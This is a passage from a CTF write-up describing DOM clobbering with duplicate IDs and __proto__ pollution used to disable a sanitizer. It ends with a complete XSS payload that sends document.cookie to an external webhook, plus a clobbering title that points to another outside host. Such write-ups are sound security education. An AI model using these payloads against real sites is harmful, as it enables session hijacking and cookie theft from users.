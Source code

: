 There are ways to clobber *deeper than one level*. One such way is to use form inputs, because they're accessible from the parent form object. For example,

```html
<form name='a'>
    <input name='b' />
</form>
```

would let us access the input using `window.a.b`. Other ways include nesting iframes and other objects, but it may be impossible to do so when dealing with sanitizers.

So it should be easy, right? We could try to put a link inside a link, or a link inside a form... but it's not as straightforward as it seems. Let's try it locally:

<img class="img-responsive" src="{{ site-url }}/assets/amtctf2023/sanity-test1.png" alt="Failed test of two-level clobbering" width="728" height="116">

<img class="img-responsive" src="{{ site-url }}/assets/amtctf2023/sanity-test2.png" alt="Another failed test of two-level clobbering" width="661" height="116">

What's happening?

Expect for inputs, objects can actually be referenced with their ID or name only from `window` directly, which makes sense. Can we get around that?

I got stuck here for a while, but as it turns out, we can. The key is having **multiple objects with the same ID**. While semantically incorrect, the JS engine will not ignore them, and will kindly put them in a collection for us; at that point, we can access a single object either by its array index or by its name, which will hopefully be unique.

<img class="img-responsive" src="{{ site-url }}/assets/amtctf2023/sanity-test3.png" alt="Successful test of two-level clobbering" width="661" height="116">

Success!

## Finalizing the payload
I spent a lot of time here, because my webhook address made the payload too long, and most free webhooks available online don't allow enabling CORS headers, which are needed to make a successful cross-site fetch.

In the end, I settled for this title:
```html
<a id="debug"><a id="debug" name="extension" href="//redacted.m.pipedream.net"></a></a>
```
The Pipedream webhook would then send the header `Access-Control-Allow-Origin: *`, and a very simple JSON object:
```json
{"report":true,"__proto__":{"sanitize":false}}
```

Why did I put `sanitize` inside `__proto__`? That was the only way I found to override a private property without a setter, as trying to inject `sanitize` directly would result in the error `TypeError: Cannot set property sanitize of #<Debug> which has only a getter`.

Once sanitization is disabled, the challenge becomes a simple XSS. My rant's content:
```html
<img src="/" onerror="window.location='https://webhook.site/redacted/?'+document.cookie" />
```
